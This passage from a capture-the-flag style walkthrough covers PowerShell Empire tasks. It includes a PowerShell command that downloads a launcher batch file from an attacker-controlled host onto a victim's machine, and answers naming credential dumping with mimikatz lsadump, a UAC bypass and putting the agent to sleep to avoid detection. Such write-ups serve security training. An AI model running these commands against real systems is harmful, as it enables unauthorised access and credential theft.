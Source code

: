 Step2: Look for a strategic location to store the file. Look like we can save the batch file inside Jon’s document folder
Step3: Force the victim to download the batch file from our server using the following PowerShell 
```
`C:\> powershell -c "(new-object System.Net.WebClient).DownloadFile('https://<Machine IP>/launcher.bat','C:\Users\Jon\Documents\launcher.bat')"
```

Step4: Move to Jon’s document folder and search for the batch file
Step5: Launch the batch file
Launch the batch file with the following command
`C:\> launcher.bat`

Locate yourself to the PS empire, you will see the following result. 
Congratulation, the victim is now connected to our PowerShell empire.

# Task 5: PS Empire (Step 3: Post-exploit)
We can now start our post-exploitation phase after the victim connected to the PS empire. Before that, record down the agent’s name using ‘agents’ command.
￼
### Task 5-3 to 5-6: The help menu
Always use the help menu if you’re not sure what to do. Command to interact with an agent
**Answer (Task 5-3):** interact

List all the username and password we have gathered
**Answer (Task 5-4):** creds

Deactivate the agent to avoid detection
**Answer (Task 5-5):** sleep

Delete an agent
**Answer (Task 5-6):** kill

### Task 5-7: Searching for post-exploitation module
There is more than 200+ exploitation module available on the power shell domain. The easiest way to locate the module is to use the search command.

```
(Empire: agents) > searchmodule <module name/ description>
```

### Task 5-8: Trolling
There are several trollsploit available in the PS Empire. This trollsploit is used to troll the victim such as playing the thunderstruck song by AC/DC.
￼
### Task 5-9: lsa dump
We can perform the lsa dump with the following module

`**Answer:** powershell/credentials/mimikatz/lsadump`

### Task 5-10: Bypass UAC
To get around the UAC, the following module can be used.
`**Answer:** bypassuac`
